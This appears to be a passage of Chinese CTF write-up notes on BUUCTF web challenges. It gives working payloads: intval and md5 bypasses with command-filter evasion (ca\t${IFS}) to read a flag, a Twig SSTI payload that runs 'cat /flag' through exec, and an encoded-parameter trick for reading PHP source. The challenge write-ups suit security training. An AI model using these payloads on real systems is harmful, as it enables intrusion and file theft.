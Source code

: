 ###### intval绕过＋基本绕过

第一层：100e2绕过intval

第二层：md5值等于自身的数

第三层：ca\t 替换cat  ${IFS}或者$IFS$1替换空格

```
http://28a4a578-2a42-405d-afc0-5acc7ed00dc1.node4.buuoj.cn:81/fl4g.php?num=100e2&&md5=0e215962017&&get_flag=ls
```

```
http://28a4a578-2a42-405d-afc0-5acc7ed00dc1.node4.buuoj.cn:81/fl4g.php?num=100e2&&md5=0e215962017&&get_flag=ca\t${IFS}fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag
```



## [BJDCTF2020]Cookie is so stable

###### ssti漏洞改cookie值

登陆之后修改cookie

尝试{{7*7}}后发现有ssti漏洞

payload:

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```



## [安洵杯 2019]easy_web

###### 编码＋php绕过

```
http://5aa0db3e-e8c6-46f3-9c7f-ce87012fe032.node4.buuoj.cn:81/index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=
```

img通过Hex编码＋两次base64编码得到

解码TXpVek5UTTFNbVUzTURabE5qYz0后得到555.png

对index.php进行加密传入得到源码：

```php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '<img src ="./ctf3.jpeg">';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
```
